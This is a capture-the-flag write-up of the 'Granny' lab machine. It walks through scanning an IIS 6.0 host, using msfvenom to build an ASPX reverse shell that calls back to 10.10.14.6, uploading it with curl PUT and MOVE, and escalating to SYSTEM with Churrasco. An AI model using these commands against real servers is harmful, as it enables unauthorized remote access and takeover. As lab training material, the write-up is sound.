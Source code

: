 # Granny (easy/TJ Null)  

## Nmap  

Ports 0-15000.  

`80/tcp open  http    syn-ack Microsoft IIS httpd 6.0`  

## HTTP 80  

Scan with dirb.  

```
==> DIRECTORY: http://10.129.95.234/_private/                                  
==> DIRECTORY: http://10.129.95.234/_vti_bin/                                  
+ http://10.129.95.234/_vti_bin/_vti_adm/admin.dll (CODE:200|SIZE:195)         
+ http://10.129.95.234/_vti_bin/_vti_aut/author.dll (CODE:200|SIZE:195)        
+ http://10.129.95.234/_vti_bin/shtml.dll (CODE:200|SIZE:96)                   
==> DIRECTORY: http://10.129.95.234/_vti_log/                                  
==> DIRECTORY: http://10.129.95.234/aspnet_client/                             
==> DIRECTORY: http://10.129.95.234/images/                                    
==> DIRECTORY: http://10.129.95.234/Images/
```  

## Shell  

The IIS 6.0 is vulnerable to MS09-020.

Create shell.  

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=8888 -f aspx > met-shell.aspx`  

Copy file into a .txt file.  

`cp met-shell.aspx met-shell.txt`  

PUT file using curl.  

`curl -X PUT http://10.129.95.234/met-shell.txt --data-binary @met-shell.txt`

MOVE into aspx file, this can be accessed in the browser to return a shell to a listener.  

`curl -X MOVE -H 'Destination: http://10.129.95.234/met-shell.aspx' http://10.129.95.234/met-shell.txt`  

## Priv Esc  

The following was found for win server 2003, this abuses the system token. As certutil wouldn't work, I had to upload this binary and another rev shell the same way I got the initial shell.  

Binary downloaded from.  

`https://github.com/Re4son/Churrasco/raw/master/churrasco.exe`

`.\churrasco.exe -d "c:\Inetpub\wwwroot\root-shell.exe"`  

I received a SYSTEM shell back to my listener.
